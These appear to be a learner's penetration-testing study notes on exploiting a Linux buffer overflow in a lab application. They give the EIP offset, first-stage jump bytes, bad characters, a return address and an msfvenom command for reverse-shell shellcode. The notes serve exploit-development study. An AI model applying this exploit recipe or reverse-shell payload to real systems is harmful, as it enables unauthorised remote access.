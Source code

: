 ```yaml
---
title: Study Notes - 2021/03/20
date: 2021-03-20 15:00:30
tags: [Penetration Testing, Study Notes]
---
```


# Linux Buffer Overflow
## DEP (data execution prevention), ASLR, Canaries


# replicating the crash  
# controlling EIP
## find the eip location, use msf-pattern_create
`msf-pattern_create -l 4379`  
eip = 0x46367046  
`msf-pattern_offset -q 46367046`  
-q, --query Aa0A                 Query to Locate  

offset = 4368

crash = "\x41" * 4368 + "B" * 4 + "C" * 7  

## locating space for shell code  
find a register that point to our buffer:  
esp point to the end of our buffer, only have 7 bytes remaining in the buffer, increase buffer size not work, lead to another crash  
eax point to the start of the buffer, including the "setup sound" string 

right click -> go to expression (setup sound)   
"se" ->  translate to `jae` jump short if above or equal  
"tu" ->  `je` jump if equal  
not good  

insert first stage shell code at the 7 bytes space  
use to allain eax to point to string after setup sound, then jump to there 

increase eax+12 as there are 12 chars in "setup sound"

```
kali@kali:~$ msf-nasm_shell
nasm > add eax,12
00000000 83C00C add eax,byte +0xc
nasm > jmp eax
00000000 FFE0 jmp eax
```

5 bytes instructions 83C00C FFE0
 
 ```
padding = "\x41" * 4368
eip = "\x42\x42\x42\x42"
first_stage = "\x83\xc0\x0c\xff\xe0\x90\x90"  # padding with nops

buffer = "\x11(setup sound " + padding + eip + first_stage + "\x90\x00#"
 ```


## checking for bad chars
We sent the whole range of characters from 00 to FF within our buffer and then monitored
whether any of those bytes got mangled, swapped, dropped, or changed in memory once they
were processed by the application.

0x00 0x20  

## finding a return address  
edb Plugins -> OpcodeSearcher  
0x8134596  

## getting a shell
```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.119.148 LPORT=443 -b "\x00\x20" -f py -v shellcode
```

the output format with
-f, and the variable name to use with -v.  



shell is stucked, because of debugger



